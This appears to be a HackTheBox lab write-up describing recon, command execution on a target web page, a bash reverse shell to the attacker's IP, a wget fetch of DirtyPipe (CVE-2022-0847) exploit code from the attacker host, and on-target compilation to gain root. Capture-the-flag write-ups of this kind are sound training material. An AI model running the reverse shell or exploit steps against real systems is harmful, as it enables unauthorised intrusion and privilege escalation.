 ## Reconnaissance

### nmap 

```
nmap -sC -sV -oN dirtypipe_light 10.129.136.81
```

![[./IMG/0.png]]
### WebSite 
- Access target site, it's a HTB custom page with command execute function.

![[./IMG/1.png]]

- Try to execute following command 
1. Confirm current user 
```
id
```

![[./IMG/2.png]]

2. Read passwd 
```
cat /etc/passwd
```

![[./IMG/3.png]]
## Exploit 

- Set up a reverse shell 
```
bash -c 'bash -i >& /dev/tcp/10.10.17.145/1337 0>&1'
```
![[./IMG/4.png]]

- Check nc status, get reverse shell

![[./IMG/5.png]]

- Check current user 
```
id
```

![[./IMG/6.png]]
- List Directory 

![[./IMG/7.png]]

- Execute linpeas (no image)
- It will get a lot of information and possible cve to escalate privilege  (no image)
- And I can find dirtypipe vulnerability in it. (no image)

## Privilege Escalation 
- Research the DirtyPipe's exploit code, find some exploit code in Github.
- Download all of them
- Compile it in local environment and upload it to target.

![[./IMG/8.png]]

- It won't be execute success 
```
./exploit-1
```
- Error message 
```
./exploit-1: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33` not found (required bu ./exploit-1)
./exploit-1: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34` not found (required bu ./exploit-1)
```

![[./IMG/9.png]]

- After research the error for a while, I think the root cause is the target environment missing correct GLIBC version 
- Check GLIBC in target environment with following command (no image)
```
strings /lib/x86_64-linux-gnu/libc.so.6 | grep GLIBC_
```
- The solution for it only 2: 
1. Compile it with low version GLIBC --> but it's very complicate to do it
   - I need to create a new environment which gcc and GLIBC is lower version

2. Upgrade target version's GLIBC --> more complicate, target environment can't connect to external network. 
- Fortunately, I found that it's able to execute gcc in target environment
- So I upload the c file to target and compile it in target environment
```
wget -m http://10.10.17.145:9191/dirtypiipeExp
```

![[./IMG/10.png]]

- Check the Exploit code directory

![[./IMG/11.png]]

- Add execute permission on shell script

![[./IMG/12.png]]

- Compile it in target machine 
```
./compile.sh
```

![[./IMG/13.png]]

- Then it success to execute. 
```
id
```

![[./IMG/14.png]]

- Get root flag

![[./IMG/15.png]]
## Reference 
### DirtyPipe Exploit 
#### Exploit Code - works
- [(GITHUB)CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
#### Exploit Code - not work
- [Exploit code (in C)](https://haxx.in/files/dirtypipez.c)
- [(GITHUB)CVE-2022-0847](https://github.com/r1is/CVE-2022-0847)

#### Analysis 
- [Linux 内核提权 DirtyPipe（CVE-2022-0847）漏洞分析](https://www.anquanke.com/post/id/270067)
- [Day16 - DirtyPipe - 如果有一個分頁，你可以提權，你會不會想要用?](https://ithelp.ithome.com.tw/articles/10302016?sc=rss.qu)
- [The Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)

### Reverse shell 
- [Reverse Shell Generator](https://www.revshells.com/)

### GLIBC Error 
- [How can I link to a specific glibc version?](https://stackoverflow.com/questions/2856438/how-can-i-link-to-a-specific-glibc-version)
- [ Version 'GLIBC_2.34' not found简单有效解决方法](https://blog.csdn.net/huazhang_001/article/details/128828999)

![[./IMG/16.png]]

- [(Need to Try it)(GITHUB)XenSpawn](https://github.com/X0RW3LL/XenSpawn)

> Other solution 

```
gcc -o file file.c -static
```



###### tags: `HackTheBox`